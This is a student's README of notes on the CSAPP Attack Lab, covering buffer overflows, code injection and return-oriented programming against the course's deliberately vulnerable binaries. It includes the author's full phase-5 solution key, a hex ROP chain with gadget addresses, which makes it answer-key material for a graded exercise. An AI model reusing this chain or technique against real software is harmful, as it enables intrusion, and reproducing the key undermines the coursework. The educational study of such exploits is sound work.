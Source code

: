 # CSAPP: Attack Lab Notes

This assignment involves generating a total of five attacks on two programs having different security vulnerabilities
You will learn different ways that attackers can exploit security vulnerabilities when programs do not safeguard themselves well enough against buffer overflows. Through this, you will 
* get a better understanding of how to write programs that are more secure, as well as some of the features provided by compilers and operating systems to make programs less vulnerable.
* gain a deeper understanding of the stack and parameter-passing mechanisms of x86-64 machine code.
* gain a deeper understanding of how x86-64 instructions are encoded. 
* gain more experience with debugging tools such as GDB and OBJDUMP. 

Note: In this lab, you will gain firsthand experience with methods used to exploit security
weaknesses in operating systems and network servers. 

## Example, what the solution look like
The following is my key for phase5
```
48 c7 c7 70 2b 68 55 c3 \ buffer of 56 bytes
00 00 00 00 00 00 00 00 \ .
35 35 37 36 64 65 30 35 \ .
00 00 00 00 00 00 00 00 \ .
00 00 00 00 00 00 00 00 \ .
00 00 00 00 00 00 00 00 \ ,
00 00 00 00 00 00 00 00 \ buffer end
ed 19 40 00 00 00 00 00 \ pop rax O (this is ret address, so no the bottom of stack is on next line)
20 00 00 00 00 00 00 00 \ value for rsi (bottom of stack when pop)
b2 1a 40 00 00 00 00 00 \ movl eax,ecx (address of gadget) "89 c1 c3" is stored at address 0x401ab2 to 0x401ab4
11 1a 40 00 00 00 00 00 \ movl ecx,edx (address of gadget) "89 c1 c3" is machine language corresponding to movl eax,ecx ret
7b 1a 40 36 64 65 30 35 \ movl edx,edi (address of gadget)  
2c 1a 40 00 00 00 00 00 \ mov  rsp,rax (address of gadget) get rsp address
de 19 40 00 00 00 00 00 \ mov  rax,rdi (address of gadget)
fd 19 40 00 00 00 00 00 \ lea  (%rdi,%rsi,1),%rax (address of gadget) get the address of target value by displacemet on rsp
de 19 40 00 00 00 00 00 \ mov rax,rdi
34 19 40 00 00 00 00 00 \ address of touch3() rdi, address of targetvalue, is passed to touch3() and call touch3()
35 35 37 36 64 65 30 35 \ target value
00
```

## Before you start
You are suggested to have some basic understanding of Assembly langauge and memory allocation. Some suggestion:
* Read *Bryant & O’Hallaron, "Computer Systems: a Programmer’s Perspective", 3rd Edition, 3.10.2~3.10.5*
* Comfortable using [gdb](http://csapp.cs.cmu.edu/2e/docs/gdbnotes-x86-64.pdf)
* Comfortable reading [x86-64 assembl](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)

## Basic idea
In C langauge, every function call would place return address on bottom of stack. When the callee return, the 
program counter would direct to the return address. 
The are some functions in C like getchar() make buffer on stack but not check how many data you put into stack.
This entable attackers to overwrite return address, thus hijack the control of program.

## Target program
There are two executable *CTARGET* and *RTARGET*, they both called `getbuf`
```
unsigned getbuf()
{
char buf[BUFFER_SIZE];
Gets(buf);
return 1;
}
```
The function `Gets` will make a buffer that enable attacker to overwrite return address and triger a series of attack.
There are 5 phases:
| Phase   |      Program      |  Method |
|:----------:|:-------------:|:------:|
| 1 |  CTARGET | Code injection |
| 2 |    CTARGET   | Code injection |
| 3 | CTARGET | Code injection |
| 4 |  RTARGET | Return-oriented programming |
| 5 |  RTARGET | Return-oriented programming |

**Code injection:** Code injection is most basic and easy way for buffer overflow attack. Since Gets makes buffer on stack. There is some momory between return address and  return address. Attack can pass Assembly instructions as hex value in buffer and redirect EPI to the instruction address to perform injected instruction.

**Return-oriented programming:** There are several shorting coming for **Code injection**. Compilier can make random padding address in buffer so that its hard to calculate the address of injected instruction. Also, compilier can make stack inexecutable to prevet EPI point to injected code. To circumvent these protection, attackers can look through original assembly code, and find pieces of instructions called *Gadget* that ended with return that collaberately achieve goal and put the address of these instructions is sequence on stack. And overwrite the return address to the address to the first instruction. Then as every *Gadget* reaches its return, it trigers the start of next *Gadget*

## Method used for the lab
`objdump -d <target>` to get the assembly code for binary file
`gdb <target>`
`info address <target function>` to find the address of functions you need.
Write your input as hex in key
`./hex2raw < key | ./ctarget` to encrylt your input and pass to target

## Author
* **Chen Li** 


## Acknowledgments
* This project is based on *Bryant & O’Hallaron, "Computer Systems: a Programmer’s Perspective", 3rd Edition*


